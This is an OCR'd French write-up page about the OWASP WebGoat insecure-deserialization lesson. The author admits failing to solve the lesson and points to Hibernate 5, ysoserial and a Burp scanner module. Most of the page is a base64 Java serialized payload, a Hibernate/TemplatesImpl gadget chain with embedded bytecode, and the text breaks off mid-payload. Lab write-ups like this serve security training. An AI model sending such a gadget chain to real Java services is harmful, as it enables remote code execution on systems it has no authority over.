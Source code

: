 #### **(A8) Insecure Deserialization:**

##### Insecure Deserialization

5.  
![Warning](images/wiki_owasp_webgoat/warning.png)  Je n'ai pas réussi à valider la leçon, ci-dessous, quelques pistes de recherche.

*   Le package à utiliser pour déclencher la faille serait Hibernate 5.
*   Le payload suivant, trouvé dans un [module](https://github.com/federicodotta/Java-Deserialization-Scanner/blob/master/src/burp/BurpExtender.java) de Burp Suite fonctionne, mais déclenche un _sleep_ de 10 secondes.
*   La [bibliothèque ysoserial](https://github.com/frohoff/ysoserial) semble être une piste de recherche aussi.

```
rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9
sZHhwP0AAAAAAAAB3CAAAAAIAAAACc3IAI29yZy5oaWJlcm5hdGUuZW5naW5lLnNwaS5UeXBlZFZhbHV
lh4gUshmh5zwCAAJMAAR0eXBldAAZTG9yZy9oaWJlcm5hdGUvdHlwZS9UeXBlO0wABXZhbHVldAASTGp
hdmEvbGFuZy9PYmplY3Q7eHBzcgAgb3JnLmhpYmVybmF0ZS50eXBlLkNvbXBvbmVudFR5cGV-e2Nh9An
XEQIADVoAEmhhc05vdE51bGxQcm9wZXJ0eVoABWlzS2V5SQAMcHJvcGVydHlTcGFuTAAPY2FuRG9FeHR
yYWN0aW9udAATTGphdmEvbGFuZy9Cb29sZWFuO1sAB2Nhc2NhZGV0AChbTG9yZy9oaWJlcm5hdGUvZW5
naW5lL3NwaS9DYXNjYWRlU3R5bGU7TAARY29tcG9uZW50VHVwbGl6ZXJ0ADFMb3JnL2hpYmVybmF0ZS9
0dXBsZS9jb21wb25lbnQvQ29tcG9uZW50VHVwbGl6ZXI7TAAKZW50aXR5TW9kZXQAGkxvcmcvaGliZXJ
uYXRlL0VudGl0eU1vZGU7WwALam9pbmVkRmV0Y2h0ABpbTG9yZy9oaWJlcm5hdGUvRmV0Y2hNb2RlO1s
ADXByb3BlcnR5TmFtZXN0ABNbTGphdmEvbGFuZy9TdHJpbmc7WwATcHJvcGVydHlOdWxsYWJpbGl0eXQ
AAltaWwANcHJvcGVydHlUeXBlc3QAGltMb3JnL2hpYmVybmF0ZS90eXBlL1R5cGU7WwAhcHJvcGVydHl
WYWx1ZUdlbmVyYXRpb25TdHJhdGVnaWVzdAAmW0xvcmcvaGliZXJuYXRlL3R1cGxlL1ZhbHVlR2VuZXJ
hdGlvbjtMAAl0eXBlU2NvcGV0ACpMb3JnL2hpYmVybmF0ZS90eXBlL1R5cGVGYWN0b3J5JFR5cGVTY29
wZTt4cgAfb3JnLmhpYmVybmF0ZS50eXBlLkFic3RyYWN0VHlwZYdFsKQmRS24AgAAeHAAAAAAAAFwcHN
yADNvcmcuaGliZXJuYXRlLnR1cGxlLmNvbXBvbmVudC5Qb2pvQ29tcG9uZW50VHVwbGl6ZXLAqqGhlZ9
DmwIABEwADmNvbXBvbmVudENsYXNzdAARTGphdmEvbGFuZy9DbGFzcztMAAlvcHRpbWl6ZXJ0ADBMb3J
nL2hpYmVybmF0ZS9ieXRlY29kZS9zcGkvUmVmbGVjdGlvbk9wdGltaXplcjtMAAxwYXJlbnRHZXR0ZXJ
0ACpMb3JnL2hpYmVybmF0ZS9wcm9wZXJ0eS9hY2Nlc3Mvc3BpL0dldHRlcjtMAAxwYXJlbnRTZXR0ZXJ
0ACpMb3JnL2hpYmVybmF0ZS9wcm9wZXJ0eS9hY2Nlc3Mvc3BpL1NldHRlcjt4cgA3b3JnLmhpYmVybmF
0ZS50dXBsZS5jb21wb25lbnQuQWJzdHJhY3RDb21wb25lbnRUdXBsaXplcgh6nmX_Q4R7AgAFWgASaGF
zQ3VzdG9tQWNjZXNzb3JzSQAMcHJvcGVydHlTcGFuWwAHZ2V0dGVyc3QAK1tMb3JnL2hpYmVybmF0ZS9
wcm9wZXJ0eS9hY2Nlc3Mvc3BpL0dldHRlcjtMAAxpbnN0YW50aWF0b3J0ACJMb3JnL2hpYmVybmF0ZS9
0dXBsZS9JbnN0YW50aWF0b3I7WwAHc2V0dGVyc3QAK1tMb3JnL2hpYmVybmF0ZS9wcm9wZXJ0eS9hY2N
lc3Mvc3BpL1NldHRlcjt4cAAAAAAAdXIAK1tMb3JnLmhpYmVybmF0ZS5wcm9wZXJ0eS5hY2Nlc3Muc3B
pLkdldHRlcjsmhfgDST23zwIAAHhwAAAAAXNyAD1vcmcuaGliZXJuYXRlLnByb3BlcnR5LmFjY2Vzcy5
zcGkuR2V0dGVyTWV0aG9kSW1wbCRTZXJpYWxGb3JtrFu2VsndG1gCAARMAA5jb250YWluZXJDbGFzc3E
AfgAUTAAOZGVjbGFyaW5nQ2xhc3NxAH4AFEwACm1ldGhvZE5hbWV0ABJMamF2YS9sYW5nL1N0cmluZzt
MAAxwcm9wZXJ0eU5hbWVxAH4AIHhwdnIAOmNvbS5zdW4ub3JnLmFwYWNoZS54YWxhbi5pbnRlcm5hbC5
4c2x0Yy50cmF4LlRlbXBsYXRlc0ltcGwJV0_BbqyrMwMACUkADV9pbmRlbnROdW1iZXJJAA5fdHJhbnN
sZXRJbmRleFoAFV91c2VTZXJ2aWNlc01lY2hhbmlzbUwAGV9hY2Nlc3NFeHRlcm5hbFN0eWxlc2hlZXR
xAH4AIEwAC19hdXhDbGFzc2VzdAA7TGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x
0Yy9ydW50aW1lL0hhc2h0YWJsZTtbAApfYnl0ZWNvZGVzdAADW1tCWwAGX2NsYXNzdAASW0xqYXZhL2x
hbmcvQ2xhc3M7TAAFX25hbWVxAH4AIEwAEV9vdXRwdXRQcm9wZXJ0aWVzdAAWTGphdmEvdXRpbC9Qcm9
wZXJ0aWVzO3hwcQB-ACd0ABNnZXRPdXRwdXRQcm9wZXJ0aWVzdAAEdGVzdHBwcHBwcHBwcHB1cgAaW0x
vcmcuaGliZXJuYXRlLnR5cGUuVHlwZTt-r6uh5JVhmgIAAHhwAAAAAXEAfgAScHBzcQB-ACIAAAAA___
__wB0AANhbGxwdXIAA1tbQkv9GRVnZ9s3AgAAeHAAAAACdXIAAltCrPMX-AYIVOACAAB4cAAABiXK_rq
-AAAAMQAyBwAwAQAzeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRTdHViVHJhbnNsZXRQYXl
sb2FkBwAEAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJ
zdHJhY3RUcmFuc2xldAcABgEAFGphdmEvaW8vU2VyaWFsaXphYmxlAQAQc2VyaWFsVmVyc2lvblVJRAE
AAUoBAA1Db25zdGFudFZhbHVlBa0gk_OR3e8-AQAGPGluaXQ-AQADKClWAQAEQ29kZQoAAwAQDAAMAA0
BAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQA1THlzb3NlcmlhbC9
wYXlsb2Fkcy91dGlsL0dhZGdldHMkU3R1YlRyYW5zbGV0UGF5bG9hZDsBAAl0cmFuc2Zvcm0BAHIoTGN
vbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGF
jaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAApFeGNlcHR
pb25zBwAZAQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXh
jZXB0aW9uAQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHR
jL0RPTTsBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWx
pemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGV
```